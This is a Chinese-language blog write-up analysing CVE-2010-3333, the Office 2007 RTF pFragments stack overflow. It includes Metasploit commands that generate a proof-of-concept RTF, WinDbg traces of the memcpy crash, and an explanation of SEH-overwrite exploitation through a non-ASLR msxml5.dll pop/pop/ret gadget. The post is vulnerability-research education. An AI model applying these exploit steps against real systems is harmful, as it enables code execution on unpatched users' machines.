


# CVE-2010-3333-office RTF 栈溢出漏洞分析 - Taolaw - 博客园

> 原文：[`www.cnblogs.com/Taolaw/p/13851749.html`](https://www.cnblogs.com/Taolaw/p/13851749.html)

## 0x00 前言

此漏洞是根据泉哥的《漏洞战争》来学习分析的，网上已有大量分析文章在此只是做一个独立的分析记录。

## 0x01 复现环境

> *   操作系统-->windows7 x64
> *   软件版本-->office 2007

## 0x02 漏洞复现

我们还是尽量走一遍标准分析流程，在假设自己不了解任何漏洞相关信息的前提下来复现此漏洞。这是一个微软的漏洞，那么最权威的信息就是在微软发布的相关的[漏洞公告](https://docs.microsoft.com/en-us/security-updates/securitybulletins/2010/ms10-087#rtf-stack-buffer-overflow-vulnerability---cve-2010-3333)里面。但是比较遗憾的是微软的漏洞公告除了告诉漏洞的影响的软件版本和触发漏洞的是一个`RTF`格式的文件，这两条信息意外，基本没有其他比较有用的信息，这时可以根据官方的补丁来进行补丁分析。本文的重点是学习此漏洞的分析和利用，那么我们首先就利用`msf`生成的样本来进行分析，随后在用补丁分析的方式探索一下漏洞的成因。但实际的漏洞分析中一定是先补丁分析，再构造样本，最后再写利用的，但这里只好本末倒置一下了。

首先用`msf`生成一个可以用的样本，如下

```
msf6 > use 0
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/fileformat/ms10_087_rtf_pfragments_bof) > set target 0
target => 0
msf6 exploit(windows/fileformat/ms10_087_rtf_pfragments_bof) > set payload windows/exec 
payload => windows/exec
msf6 exploit(windows/fileformat/ms10_087_rtf_pfragments_bof) > set cmd calc.exe
cmd => calc.exe
msf6 exploit(windows/fileformat/ms10_087_rtf_pfragments_bof) > run 
```

`msf6`新引入的一个操作，在`search`以后可以直接通过`use`配合前面的编号来选择`exp`，这点很方便啊(必须一键三连)！！！这里的选项`target 0`是根据目标选择的，这里的`0`表示自动适配目标，应该算是通用性最强的了。

## 0x03 漏洞分析

首先打开`WINWORD.exe`，然后用 windbg 附加上去。再按`g`执行以后打开`poc`，这里要说明的一点是打开的时候最好选择直接把文件拖到窗口的方式，这种方式的异常捕获和其他打开方式的异常捕获位置会略微不同。随后程序被断下，位置如下所示

```
0:007> g
ModLoad: 662b0000 6636b000   C:\Windows\system32\spool\DRIVERS\W32X86\3\unires.dll
ModLoad: 66370000 6642b000   C:\Windows\system32\spool\DRIVERS\W32X86\3\unires.dll
ModLoad: 662b0000 6636b000   C:\Windows\system32\spool\DRIVERS\W32X86\3\unires.dll
ModLoad: 66570000 66590000   C:\Windows\system32\prntvpt.dll
ModLoad: 66290000 66425000   C:\Program Files\Common Files\Microsoft Shared\OFFICE12\OGL.DLL
ModLoad: 73730000 7373d000   C:\Windows\system32\WTSAPI32.DLL
(e5c.e58): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
eax=1105c8ac ebx=05000000 ecx=0000146e edx=00000000 esi=110576f4 edi=00151000
eip=6cf4500a esp=001498cc ebp=001498d4 iopl=0         nv up ei pl nz na po nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00010202
*** ERROR: Symbol file could not be found.  Defaulted to export symbols for C:\Windows\WinSxS\x86_microsoft.vc80.crt_1fc8b3b9a1e18e3b_8.0.50727.4940_none_d08cc06a442b34fc\MSVCR80.dll - 
MSVCR80!memcpy+0x5a:
6cf4500a f3a5            rep movs dword ptr es:[edi],dword ptr [esi] 
```

可以看到这个 crash 的位置发生在一个不太正常的位置-->`memcpy`内部的循环拷贝指令，这在这类缓冲区溢出的漏洞中很不常见，基于这一点疑问，我们就先看一下`edi`现在的内存属性，以及连个寄存器所指向的内存的内容

```
0:000> dc esi
110576f4  1ab1e101 fd58b865 6cdfaa66 46453c6d  ....e.X.f..lm<EF
11057704  2b94ee09 c25401d4 08ef151d 4ceb5515  ...+..T......U.L
11057714  7389e8f6 c40c8d32 03b95b9a ed45919a  ...s2........E.
11057724  35b549ba 3577e1f8 7eaa0706 509ed269  .I.5..w5...~i..P
11057734  c4788b78 7052b9e4 b18bda91 9e317d73  x.x...Rp....s}1.
11057744  30bea30f b1df8188 8b95e416 76fb76c3  ...0.........v.v
11057754  8022fcf7 1ad6220c 8f88062a b11ff798  ..".."..*.......
11057764  a7253304 fb926e0b 36f105ad 3015dfab  .3%..n.....6...0
0:000> dc edi
00151000  ???????? ???????? ???????? ????????  ????????????????
00151010  ???????? ???????? ???????? ????????  ????????????????
00151020  ???????? ???????? ???????? ????????  ????????????????
00151030  ???????? ???????? ???????? ????????  ????????????????
00151040  ???????? ???????? ???????? ????????  ????????????????
00151050  ???????? ???????? ???????? ????????  ????????????????
00151060  ???????? ???????? ???????? ????????  ????????????????
00151070  ???????? ???????? ???????? ????????  ????????????????
0:000> !address edi
Usage:                  Free
Base Address:           00151000
End Address:            00160000
Region Size:            0000f000
Type:                   00000000	
State:                  00010000	MEM_FREE
Protect:                00000001	PAGE_NOACCESS 
```

这下就比较清楚了，`edi`所指向的内存地址为`PAGE_NOACCESS`属性(其标志性就是内存区域全是`?`，因为不可读)，也就是禁止读写，执行等一系列操作，因此造成内存访问违例，触发了异常。然后我们通过栈回溯的方式看一下当前所在的`dll`，如下

```
0:000> kb
ChildEBP RetAddr  Args to Child              
WARNING: Stack unwind information not available. Following frames may be wrong.
001498d4 64ad0051 0014990c 11050000 0000c8ac MSVCR80!memcpy+0x5a
001498e8 651695a4 04567c30 0014990c 00000000 mso!Ordinal3667+0x548
0014991c e8831870 ee780c4f 0f835347 ea0d3497 mso!Ordinal2605+0x33c5
00149920 ee780c4f 0f835347 ea0d3497 7e6974a6 0xe8831870
00149924 0f835347 ea0d3497 7e6974a6 d2f94498 0xee780c4f
00149928 ea0d3497 7e6974a6 d2f94498 c6af2e14 0xf835347
0014992c 7e6974a6 d2f94498 c6af2e14 e87842af 0xea0d3497 
```

通过函数栈帧可以看到是在`mso!Ordinal3667+0x548`这个函数中调用`memcpy`导致了上面看到的拷贝异常，我们用`Everything`搜索`mso.dll`，用 IDA 打开。这里还有一点需要注意的地方，由于开启了`ASLR`所以 dll 加载的基地址每次也不一样，因此我们需要计算一下`memcpy`函数的偏移，再去 IDA 中找对应的函数，我们先看一下`mso.dll`的详细信息

```
0:000> lmm mso v
start    end        module name
64910000 65928000   mso        (export symbols)       C:\Program Files\Common Files\Microsoft Shared\office12\mso.dll
    Loaded symbol image file: C:\Program Files\Common Files\Microsoft Shared\office12\mso.dll
    Image path: C:\Program Files\Common Files\Microsoft Shared\office12\mso.dll
    Image name: mso.dll
    Timestamp:        Sat Oct 28 06:21:47 2006 (4542867B)
    CheckSum:         01023B3C
    ImageSize:        01018000
    File version:     12.0.4518.1014
    Product version:  12.0.4518.0
    File flags:       0 (Mask 3F)
    File OS:          40004 NT Win32
    File type:        2.0 Dll
    File date:        00000000.00000000
    Translations:     0000.04e4
    CompanyName:      Microsoft Corporation
    ProductName:      2007 Microsoft Office system
    InternalName:     MSO
    OriginalFilename: MSO.DLL
    ProductVersion:   12.0.4518.1014
    FileVersion:      12.0.4518.1014
    FileDescription:  2007 Microsoft Office component
    LegalCopyright:   © 2006 Microsoft Corporation.  All rights reserved. 
```

从上述信息中可以看出 dll 的基地址是`64910000`，根据栈回溯，在执行完`memcpy`之后函数的返回地址是`64ad0051`，可以得到偏移是`1C0051`，在 IDA 中`memcpy`调用的位置如下所示

![

可以看到`memcpy`函数的偏移为`1C004C`，接下来我们就通过动态跟踪的方式看一看这里的 copy 到底复制了什么。由于此版本开启了`ASLR`，所以每次加载的地址都是随机的，我们附加以后用`lmm mso v`命令看一下`mso`的基地址，再加上我们上面算出来的偏移就是`memcpy`的地址了，不过，为了保险可以先用`ub address`反汇编来看一下是否是准确的地址

```
0:009> lmm mso v
start    end        module name
65bb0000 66bc8000   mso        (deferred)             
    Image path: C:\Program Files\Common Files\Microsoft Shared\office12\mso.dll
    Image name: mso.dll
    Timestamp:        Sat Oct 28 06:21:47 2006 (4542867B)
    CheckSum:         01023B3C
    ImageSize:        01018000
    File version:     12.0.4518.1014
    Product version:  12.0.4518.0
    File flags:       0 (Mask 3F)
    File OS:          40004 NT Win32
    File type:        2.0 Dll
    File date:        00000000.00000000
    Translations:     0000.04e4
    CompanyName:      Microsoft Corporation
    ProductName:      2007 Microsoft Office system
    InternalName:     MSO
    OriginalFilename: MSO.DLL
    ProductVersion:   12.0.4518.1014
    FileVersion:      12.0.4518.1014
    FileDescription:  2007 Microsoft Office component
    LegalCopyright:   © 2006 Microsoft Corporation.  All rights reserved.
0:009> ub 65D70051
*** ERROR: Symbol file could not be found.  Defaulted to export symbols for C:\Program Files\Common Files\Microsoft Shared\office12\mso.dll - 
mso!Ordinal3667+0x52f:
65d70038 8b410c          mov     eax,dword ptr [ecx+0Ch]
65d7003b 25ffff0000      and     eax,0FFFFh
65d70040 50              push    eax
65d70041 0faf4510        imul    eax,dword ptr [ebp+10h]
65d70045 034110          add     eax,dword ptr [ecx+10h]
65d70048 50              push    eax
65d70049 ff750c          push    dword ptr [ebp+0Ch]
65d7004c e83852e4ff      call    mso!Ordinal6877+0x181 (65bb5289)
0:009> bp 65d7004c 
0:009> bl
 0 e 65d7004c     0001 (0001)  0:**** mso!Ordinal3667+0x543 
```

断点设置如上，随后运行。这次运行我们重点观察一下调用`memcpy`时的三个参数，如下所示

```
0:009> g
ModLoad: 6a430000 6a4eb000   C:\Windows\system32\spool\DRIVERS\W32X86\3\unires.dll
ModLoad: 693d0000 6948b000   C:\Windows\system32\spool\DRIVERS\W32X86\3\unires.dll
ModLoad: 6a430000 6a4eb000   C:\Windows\system32\spool\DRIVERS\W32X86\3\unires.dll
ModLoad: 6cd60000 6cd80000   C:\Windows\system32\prntvpt.dll
ModLoad: 692f0000 69485000   C:\Program Files\Common Files\Microsoft Shared\OFFICE12\OGL.DLL
ModLoad: 73690000 7369d000   C:\Windows\system32\WTSAPI32.DLL
Breakpoint 0 hit
eax=11050000 ebx=05000000 ecx=04c07c30 edx=00000300 esi=04c07c30 edi=00149e40
eip=65d7004c esp=00149c4c ebp=00149c58 iopl=0         nv up ei pl nz na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000206
mso!Ordinal3667+0x543:
65d7004c e83852e4ff      call    mso!Ordinal6877+0x181 (65bb5289)
0:000> dd esp
00149c4c  00149c7c 11050000 0000c8ac 00149c8c
00149c5c  664095a4 04c07c30 00149c7c 00000000
00149c6c  00000000 00000000 00000000 00000000
00149c7c  00000000 05000000 00000000 00000000
00149c8c  00149cbc 664096f4 00149df8 00000000
00149c9c  ffffffff 00000000 03577018 0014aba0
00149cac  0014a304 00149f60 1b18b8b6 00000000
00149cbc  00149f18 664098bb 00149e40 00149df8
0:000> dd 11050000 
11050000  74d9ecd9 be58f424 128deeb3 31b1c929
11050010  03187031 e8831870 ee780c4f 0f835347
11050020  ea0d3497 7e6974a6 d2f94498 c6af2e14
11050030  e87842af c75ee818 46a24199 a8f79819
11050040  a80a5320 f8e78e65 ed5ac43e 8666904b
11050050  7bef3407 2dde37df ccc06e54 d7491ab9
11050060  6c0327de a492d314 89381c65 cd40ef4a
11050070  2737106c fc40ad8f e7c469f2 cc7ef954
0:000> dd 00149c7c 
00149c7c  00000000 05000000 00000000 00000000
00149c8c  00149cbc 664096f4 00149df8 00000000
00149c9c  ffffffff 00000000 03577018 0014aba0
00149cac  0014a304 00149f60 1b18b8b6 00000000
00149cbc  00149f18 664098bb 00149e40 00149df8
00149ccc  00000000 03577018 00000000 0014a304
00149cdc  00149f60 00000000 ffffffff ffffffff
00149cec  ffffffff 00000000 20000000 00010100 
```

这就是我们比较熟悉的内容了，`esp`中的前三个参数对应`memcpy`的三个参数，目标地址是栈空间，源地址的数据是文件中的内容，而且及其致命的一点是，这里第三个参数，复制的长度居然也是从文件中读取的，这便造就了一个数据完全可控的栈溢出。下图是文件的内容和此处 copy 的参数的对比


复制的内容我们了解了，复制的长度也清楚了，接下来需要搞明白目标栈的长度就可以了，通过 IDA 静态分析，在调用 memcpy 的函数的上层函数中定义了这个数组的长度，为`0x10`，我们也可以通过查看栈指向的函数返回地址来验证





到这一步漏洞成因就分析清楚了，另外需要补充的一点是关于这里复制的内容，是属于`rtf`格式的文件中的`pFragements`属性的内容，关于`rtf`的详细信息可以看[RFC 文档](https://tools.ietf.org/html/rfc1896)，随后我们看一下漏洞是如何利用的。

## 0x04 漏洞利用

这里的漏洞利用还是用一贯以来的研究方式，在了解漏洞我们先看看此版本的 office 开启了哪些安全机制


> *   ASLR -- 地址随机化，可以通过覆盖函数的返回地址和 SEH 的方式，执行栈空间的 shellcode，稳定的利用

是的，也就这样了，没了(老实说没有上一个[CVE-2010-2883](https://www.cnblogs.com/Taolaw/p/13823479.html)精彩)。那么针对这种情况的利用方式就很简单明了了。我们看一下作者是如何利用这个漏洞的。由于 windows7 符号表没法加载，看不到程序的`SEH 链`，所以后面的调试改用了`x32dbg`来完成。
对于此漏洞最有效且迅速的方案就是覆盖函数的返回地址为`jmp esp`，然后执行`shellcode`，当然从这里的情况可以发现，`memcpy`函数复制的长度为`C8AC`大概率可以猜测是覆盖到了 SEH 的，通过查找发现，最近的 SEH 链在笔者的环境中如下所示


中间的地址就是要劫持的地址的位置(SEH 的处理函数指针)，随后按`f9`让程序继续执行，由于复制的内容过长，这直接会导致触发异常处理，这时调试器会直接捕获并断下来，断下来之后继续看此处的地址，如下所示


可以看到用来处理异常的 SEH 函数指针被覆盖为了`msxml5.dll`的某处地址，查看这个 dll 发现是没有开启`ASLR`的，所以地址是固定的可以稳定利用。接下来如果执行异常处理函数就会到此处寻址，然后执行，但是此处已经被改为精心设计的地址，所以这后面是直接执行`shellcode`的代码，这里我们跟过去观察一下情况，看一下利用的代码布局


这时一个很经典的 SEH 利用方式，`pop + pop + ret`指令序列。关于这里为什么会用`P/P/R`的原因，可以参考[此处](https://blog.csdn.net/qq_32400847/article/details/53232983)，此时的栈情况，红色箭头是返回地址，可以看到返回地址已经是在栈的范围里面了，由于没有开启`DEP`，后面的 shellcode 可以轻松的得到执行。


## 0x05 总结

这个漏洞属于典型的缓冲区溢出的利用，没有太多的亮点，和之前的[CVE-2009-0927-Adobe Reader 缓冲区溢出漏洞分析](https://www.cnblogs.com/Taolaw/p/13775921.html)利用思路差不多，唯一差别就是 pdf 中可以用对喷射占领`0x0c0c0c0c`布置 shellcode，这里是在栈里面布置，都属于基础款。